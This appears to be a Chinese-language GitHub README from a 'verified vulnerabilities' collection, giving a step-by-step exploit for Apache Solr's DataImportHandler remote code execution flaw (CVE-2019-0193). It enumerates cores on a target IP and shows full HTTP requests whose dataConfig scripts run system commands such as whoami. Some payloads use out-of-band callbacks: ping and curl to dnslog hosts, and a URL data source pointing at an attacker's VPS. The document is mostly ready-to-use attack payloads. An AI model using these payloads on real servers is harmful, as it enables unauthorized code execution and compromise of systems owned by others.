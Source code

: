 # Collection of verified vulnerabilities

## Apache Solr Rce cve-2019-0193

核心：
```bash
curl http://192.168.1.1:991/solr/admin/cores\?wt\=json                  
{"responseHeader":{"status":0,"QTime":17},"initFailures":{},"status":{"core1":{"name":"core1","instanceDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1","dataDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1\\data\\","config":"solrconfig.xml","schema":"managed-schema","startTime":"2021-04-25T12:43:08.088Z","uptime":62054759,"index":{"numDocs":181826,"maxDoc":181827,"deletedDocs":1,"indexHeapUsageBytes":-1,"version":15488,"segmentCount":13,"current":false,"hasDeletions":true,"directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1\\data\\index lockFactory=org.apache.lucene.store.NativeFSLockFactory@50d44b11; maxCacheMB=48.0 maxMergeSizeMB=4.0)","segmentsFile":"segments_1z0","segmentsFileSizeInBytes":-1,"userData":{"commitTimeMSec":"1619351488535"},"lastModified":"2021-04-25T11:51:28.535Z","sizeInBytes":81525254,"size":"77.75 MB"}},"us_series":{"name":"us_series","instanceDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series","dataDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series\\data\\","config":"solrconfig.xml","schema":"managed-schema","startTime":"2021-02-22T09:35:28.041Z","uptime":5429953208,"index":{"numDocs":0,"maxDoc":0,"deletedDocs":0,"indexHeapUsageBytes":0,"version":10,"segmentCount":0,"current":false,"hasDeletions":false,"directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series\\data\\index lockFactory=org.apache.lucene.store.NativeFSLockFactory@50d44b11; maxCacheMB=48.0 maxMergeSizeMB=4.0)","segmentsFile":"segments_3","segmentsFileSizeInBytes":-1,"userData":{"commitTimeMSec":"1591665641933"},"lastModified":"2020-06-09T01:20:41.933Z","sizeInBytes":1508,"size":"1.47 KB"}}}}
```
可利用的核心就是`core1`、`us_series`；即可构造传参url：

- http://192.168.1.1:991/solr/core1/dataimport
- http://192.168.1.1:991/solr/us_series/dataimport
- 有回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
- 无回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)

### # 1x01 恶意xml引用
引用地址`(https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CoVV/ApacheSolr/solr.xml)`

### # 有回显payload

```
POST /solr/core1/dataimport?command=full-import&debug=true&wt=json
&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig= HTTP/1.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 212
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
content-type: multipart/form-data; 
boundary=------------------------aceb88c2159f183f


--------------------------aceb88c2159f183f
Content-Disposition: form-data; name="stream.body"

<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF>

--------------------------aceb88c2159f183f--
```
（放到Decoder模块url编码）dataConfig：
```
<dataConfig>

  <dataSource type="URLDataSource"/>
  <script><![CDATA[

          function poc(row){

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));

return row;

}

  ]]></script>

        <document>
             <entity name="entity1"
                     url="http://{your_vps_ip}:{your_vps_port}/bin4xin.xml"
                     processor="XPathEntityProcessor"
                     forEach="/RDF/item"
                     transformer="script:poc">
                        <field column="title" xpath="/RDF/item/title" />
             </entity>
        </document>
</dataConfig>
```

![](../../assets/solr-RCE-echo-out.png)


### # 无回显payload

区别在于dataConfig：

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

  <script><![CDATA[
          function poc(row){
 var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ping w5zhv5.dnslog.cn").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));
return row;

}

]]></script>

<document>
    <entity
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>

```

### # POST

```bash
POST /solr/core1/dataimport HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 581

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=new_core&name=dataimport&dataConfig=<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(data){
new+java.lang.ProcessBuilder["(java.lang.String[])"](["curl","fy544n.dnslog.cn"]).start()
}
  ]]></script>

  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![](../../assets/solr-RCE-post-method.png)


### # 区别
左边无回显，右边有回显

![](../../assets/solr-payload-difference.png)

### 参考

[漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](https://xz.aliyun.com/t/5965)